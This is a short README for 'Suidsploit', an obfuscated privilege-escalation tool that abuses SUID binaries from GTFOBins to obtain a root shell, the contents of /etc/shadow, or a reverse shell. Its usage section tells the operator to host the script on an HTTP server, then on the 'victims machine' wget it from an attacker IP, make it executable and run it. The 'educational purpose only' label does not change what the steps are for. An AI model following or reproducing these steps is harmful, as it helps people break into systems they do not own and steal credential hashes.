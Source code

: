 # Suidsploit by Tizun & Silky

[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

Suidsploit is a Tool which can exploit 137 files from GTFO-Bins.
On successful exploitation you can gain:

- Root Shell
- Output of /etc/shadow
- Reverse shell

# Why it's obfuscated?

- Simply because the creators don't want that their program is ripped

# Usage:
Open your favorite Terminal and run these commands.
On your machine:
- Download Suidsploit
- Start a HTTP-Server


$ git clone https://github.com/S1lkys/Suidsploit.git

$ cd Suidsploit/

$ python -m SimpleHTTPServer 80


On victims machine:
- download Suidsploit
- make it executable
- execute Suidsploit


$ wget http://192.168.xxx.xxx/Suidsploit.ob.sh

$ chmod +x Suidsploit.ob.sh

$ bash Suidsploit.ob.sh
### Todos

- Fix found Bugs
- Add new Tools

License
----
For educational Purpose only!
---
